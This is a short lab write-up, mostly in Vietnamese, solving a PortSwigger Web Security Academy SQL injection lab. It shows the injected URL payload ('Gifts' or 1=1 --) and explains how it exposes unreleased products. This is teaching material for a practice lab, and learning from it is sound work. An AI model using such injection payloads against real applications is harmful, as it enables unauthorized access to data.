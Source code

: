 # **Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**

> This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:  
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
>  To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.  

# Solution:
Dựa theo câu truy vấn ta xác định có 2 đối số là category và released. Thực hiện tiêm sql vào đối số qua URL:  
> https://0a8400e904e4b81e80b6718200c7009f.web-security-academy.net/filter?category=Gifts

Sửa URL:  
> https://0a8400e904e4b81e80b6718200c7009f.web-security-academy.net/filter?category=Gifts%27%20or%201=1%20--

Ở đây câu truy vấn sẽ thành:  
```
SELECT * FROM products WHERE category = 'Gifts' or 1=1 --' AND released = 1
```
Vì 1=1 luôn đúng và phần sql phía sau -- bị comment nên câu truy vấn thực sự là:
```
SELECT * FROM products WHERE category = 'Gifts' or 1=1
```
Như vậy kết quả trả về sẽ là toàn bộ sản phẩm, bao gồm các hàng bị ẩn.
![Image](https://i.pinimg.com/736x/f5/68/04/f56804886125925b781864924c8c8ddc.jpg)